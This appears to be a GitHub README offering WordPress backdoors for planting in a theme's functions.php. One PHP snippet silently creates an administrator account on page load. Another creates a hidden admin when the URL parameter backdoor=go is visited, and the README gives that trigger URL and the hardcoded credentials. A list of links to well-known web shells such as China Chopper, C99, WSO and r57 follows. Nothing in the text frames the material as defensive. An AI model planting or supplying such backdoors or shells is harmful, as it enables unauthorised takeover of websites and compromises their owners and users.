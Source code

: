 ![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/link-in-bio-backdoor-and-web.png?raw=true)

## Backdoor-01 (add to theme functions.php)






```bash

function wpb_admin_account(){
$user = ‘minhaz’;
$pass = ‘pass’;
$email = ’email@email.em’;
if ( !username_exists( $user ) && !email_exists( $email ) ) {
$user_id = wp_create_user( $user, $pass, $email );
$user = new WP_User( $user_id );
$user->set_role( ‘administrator’ );
}
}
add_action(‘init’,’wpb_admin_account’);
```
![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/Screenshot_1.png?raw=true)
## Backdoor-02 (add to theme functions.php)






```bash

<?php
add_action(‘wp_head’, ‘WordPress_backdoor’);
function WordPress_backdoor() {
If ($_GET[‘backdoor’] == ‘go’) {
require(‘wp-includes/registration.php’);
If (!username_exists(‘backdooradmin’)) {
$user_id = wp_create_user(‘backdooradmin’, ‘Pa55W0rd’);
$user = new WP_User($user_id);
$user->set_role(‘administrator’);
}
}
}
?>

```
https://www.targetdomain.com?backdoor=go
- User: backdooradmin
 - Password: Pa55W0rd

![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/Screenshot_2.png?raw=true)



# Web Shell
# 
![Logo](https://github.com/jco666/alfa-shell/raw/master/readme_1.png)
 - [Alpha Web Shell ](https://github.com/nicolauns/alfa-shell )
 - [ASPXSpy Web Shell:](https://github.com/tennc/webshell/blob/master/net-friend/aspx/aspxspy.aspx)
 - [C99 Backdoor Web Shell](https://github.com/tennc/webshell/tree/master/php/PHPshell/c99shell)
 - [China Chopper Shell](https://github.com/tennc/webshell/tree/master/caidao-shell)
 - [ IndoXploit Shell (IDX Shell) ](https://github.com/linuxsec/indoxploit-shell)
 - [WSO Web Shell](https://github.com/tennc/webshell/tree/master/php/wso)
  - [B374k PHP Shell](https://github.com/b374k/b374k)
   - [r57 Shell](https://github.com/tennc/webshell/tree/master/138shell/R)
